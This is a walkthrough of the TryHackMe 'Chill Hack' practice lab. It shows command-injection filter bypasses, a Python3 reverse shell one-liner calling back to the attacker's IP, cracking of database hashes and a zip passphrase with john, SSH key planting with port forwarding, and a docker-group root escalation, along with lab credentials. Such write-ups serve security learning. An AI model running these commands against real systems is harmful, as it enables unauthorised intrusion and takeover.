Hello everyone,

Today we are going to solve chillhack from tryhackme. we will learn about python3 reverse shell, ssh port forwarding,zip2john and docker group privilege escalation.


<!--truncate-->

## Nmap results

```c
Nmap scan report for 10.10.9.151 (10.10.9.151)
Host is up (0.19s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.2.206
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Game Info
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.63 seconds
```

---

## Gobuster results

```c
===============================================================
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/css                  (Status: 301) [Size: 308] [--> http://10.10.9.151/css/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.9.151/fonts/]
/images               (Status: 301) [Size: 311] [--> http://10.10.9.151/images/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.9.151/js/]
/secret               (Status: 301) [Size: 311] [--> http://10.10.9.151/secret/]
/server-status        (Status: 403) [Size: 276]
===============================================================
```

---

## FTP

--> Got the file named `notes.txt` in ftp

```bash
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

---

## Enumeration

--> I got this website on port 80


--> After going to the `secret` directory i found one input and it was asking for command to execute. so i tried to do `id` and i got the results



--> But it was filtering many commands so after some time i tried to do like `l\s` and it got executed !

and i found 2 files/directories in current directory.

```bash
images index.php
```

--> Now let's read the content of `index.php`

And i found it using command `c\at index.php`



--> I tried with `bash` `php` and `python` shells but it didn't worked then at last i tried `python3` shell with python3 as `/usr/bin/python3` and it worked and i got the reverse shell !



==> Python shell :

```bash
export RHOST="10.9.2.206";export RPORT=4444;/usr/bin/python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

---

## User privesc

--> When i done `sudo -l` i found that i can run `helpline.sh` file as a user `apaar`

`(apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh`

--> So let's run it with the command : `sudo -u apaar /home/apaar/.helpline.sh` and enter `/bin/bash` in every field and i got the shell of `apaar` user.



---

## Anurodh

--> After some searching i found that there are 3 internal ports are running `9001` and `3306` so i done curl on both ports and found one customer portal on port `9001` but i don't know username and password to login.

--> Then i found the mysql password for `root` in `/var/www/files/index.php`



--> Then i logged in using this creds : `root:!@m+her00+@db`

And after that i got the password for user `anurodh` in `webportal` db.



```bash
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
```

After cracking :

`anurodh:masterpassword`

--> Now let's try to login using ssh.

But it didn't worked so let's try to login on port `9001` using this creds.

--> but then i generated new ssh keys and entered the public keys in `autorized_keys` file and also i forwarded the port `9001`

```bash
ssh apaar@10.10.208.94 -i key -L 9001:localhost:9001
```

--> After that i went to the port `9001` and found one login page.



--> We have the creds which we found in the database so let's login

after login i found this page :



--> So it says `Look in the dark you will find your answer` but i can't find any dark thing here xD.

so there must be anything with the image so Let's download the image and do some stegno.

```bash
steghide info hacker.jpeg
```

I found one file called `backup.zip` in the image



let's extract it

```bash
steghide extract -sf hacker.jpeg
```

--> But the file is asking for a passphrase so we have to find the passphrase for the zip file using `zip2john`

```bash
zip2john backup.zip > converted
john --wordlist=/usr/share/wordlists/rockyou.txt converted
```

--> And i found the passphrase `pass1word`

After unzipping the file i got one file called `source_code.php` Let's read this file.

and i got one base64 encoded password in the file



--> And this password looks of `Anurodh` because of this code



After decoding the password i got this

`anurodh:!d0ntKn0wmYp@ssw0rd`

--> Let's login on ssh !

and we got ssh shell !

---

## Root

--> When i done `id` then i found that `docker` is a part of our group so i searched for `docker group privilege escalation` and i found this command on `gtfobins`

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

--> and we got root shell !


